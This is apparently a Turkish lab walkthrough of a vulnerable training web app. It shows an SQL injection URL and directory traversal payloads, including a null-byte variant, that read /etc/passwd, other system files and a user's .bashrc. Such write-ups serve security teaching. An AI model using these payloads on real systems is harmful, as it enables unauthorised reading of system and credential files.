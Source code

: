 `http://172.16.248.132/sqli/example9.php?order=name desc %23`



### DIRECTORY TRAVERSAL

#### Example 1

Bu kısımlarda bize link verilmemiş onun yerine resimler verilmiş kaynak koda bakıpta resimlerin yollarını öğreniyoruz.

`http://192.168.56.101/dirtrav/example1.php?file=hacker.png` Burada kullanıcıdan parametre olarak alınan bir resim tekrar ekranda gösteriliyor eğer burada alınan veride filtreleme yapılmamışsa ve saldırgan .. / \ gibi karakterleri kullanabiliyorsa saldırgan dizin değiştirebilir başka dosyaları okuyabilir hatta dosya oluşturabilir. 

> http://192.168.56.101/dirtrav/example1.php?file=../../../../../../../etc/passwd
>
> http://192.168.56.101/dirtrav/example1.php?file=../../../../../../../etc/shells
>
> http://192.168.56.101/dirtrav/example1.php?file=../../../../../../../etc/services
>
> http://192.168.56.101/dirtrav/example1.php?file=../../../../../../../etc/hosts
>
> http://192.168.56.101/dirtrav/example1.php?file=../../../../../../../home/user/.bashrc - **/etc/passwd** den user 
> isminde bir kullanıcı olduğunu öğrendik.

#### Example 2

Bu bölümde bize direk dosyanın yolunuda vermişler hangi dizinde olduğumuzu rahatlıkla anlayabiliyoruz.

> http://192.168.56.101/dirtrav/example2.php?file=/var/www/files/../../../../etc/passwd
>
> http://192.168.56.101/dirtrav/example2.php?file=/var/www/files/../../../../etc/shells
>
> http://192.168.56.101/dirtrav/example2.php?file=/var/www/files/../../../../etc/services
>
> http://192.168.56.101/dirtrav/example2.php?file=/var/www/files/../../../../etc/hosts
>
> http://192.168.56.101/dirtrav/example2.php?file=/var/www/files/../../../../home/user/.bashrc - **/etc/passwd** den 
> user isminde bir kullanıcı olduğunu öğrendik.

#### Example 3

Bu bölümde bize direk dosyanın yolunuda vermişler hangi dizinde olduğumuzu rahatlıkla anlayabiliyoruz. Bu kısımda dosyanın uzantısı URL de verilmemiş.Bizim istediğimiz yola giderken bir syntax hatası ile karşılaşmamak için bu eklenen uzantıyı iptal etmemiz gerekiyor. Bunuda **%00** yani **NULL** ifadesi ile yapabiliyoruz. **php** bu ifadeyi gördükten sonra kalan kısmı okumaz.

> http://192.168.56.101/dirtrav/example3.php?file=../../../../../../etc/passwd%00
>
> http://192.168.56.101/dirtrav/example3.php?file=../../../../../../etc/shells%00
>
> http://192.168.56.101/dirtrav/example3.php?file=../../../../../../etc/services%00
>
> http://192.168.56.101/dirtrav/example3.php?file=../../../../../../etc/hosts%00
>
> http://192.168.56.101/dirtrav/example3.php?file=../../../../../../home/user/.bashrc%00 - **/etc/passwd** den user 
> isminde bir kullanıcı olduğunu öğrendik.
